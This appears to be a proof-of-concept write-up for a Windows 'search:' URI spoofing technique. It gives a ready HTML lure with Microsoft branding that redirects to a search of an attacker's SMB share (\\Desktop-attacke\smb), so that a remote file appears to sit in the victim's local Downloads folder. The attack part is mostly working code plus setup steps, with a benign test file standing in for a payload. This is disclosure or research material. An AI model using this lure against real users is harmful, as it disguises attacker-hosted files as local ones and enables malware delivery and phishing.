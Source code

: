 # PoC
## Victim's Machine
- OS - Windows 10 1909
- Build - 18363.1139

## Attacker's Machine
- OS - Windows 10 1909
- Build - 18363.1139

## Setting Up

#### Attacker's Machine
- There is a SMB share set up on the attacker's machine.
- The files are accessible to everyone on the network.![](Attachments/Pasted%20image%2020240708021919.png)
- For testing purposes, there is a text file ( Hello.txt )  in the folder.![](Attachments/Pasted%20image%2020240708024507.png)

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads"
    <p><a href="search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads">Hello</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![](Attachments/Pasted%20image%2020240708023819.png)
- Opening Windows Explorer![](Attachments/Pasted%20image%2020240708024225.png)
	1. Windows has searched for "Hello.txt" .
	2. It appears as if the file is in "Downloads" .
	3. The actual location of the file is "\\\\Desktop-attacke\\smb\\Hello.txt"  .

- If the Victim uses a different layout, the actual location will not be visible.![](Attachments/Pasted%20image%2020240708024753.png) 